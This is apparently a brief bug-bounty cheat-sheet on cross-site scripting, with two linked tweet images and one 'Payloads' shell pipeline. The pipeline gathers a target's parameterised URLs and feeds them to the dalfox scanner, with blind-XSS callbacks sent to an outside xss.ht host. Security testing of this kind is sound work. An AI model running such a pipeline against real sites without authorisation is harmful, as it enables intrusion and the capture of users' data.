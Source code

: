 ## XSS (Cross Site Scripting)

<h3>1</h3>
<a href="https://twitter.com/404death/status/1464102960372224003"><img width="550" height="600px" align="left" src="https://user-images.githubusercontent.com/79082257/143777165-68df1dd0-a69a-4fcb-af8e-5fb7c96463f8.png"/></a>

<h3>2</h3>
<a href="https://twitter.com/0xElkomy/status/1467466221704847361"><img width="600" height="700px" align="center" src="https://user-images.githubusercontent.com/79082257/144747863-5c672808-727e-4ac2-a894-ce09966ea765.png"/></a>

Payloads
```
   cat Target.com | gau -subs | grep "https://" | grep -v "png\|jpg\|css\|js\|gif\|txt" | grep "=" | uro | dalfox pipe --deep-domxss --multicast --blind username.xss.ht
```
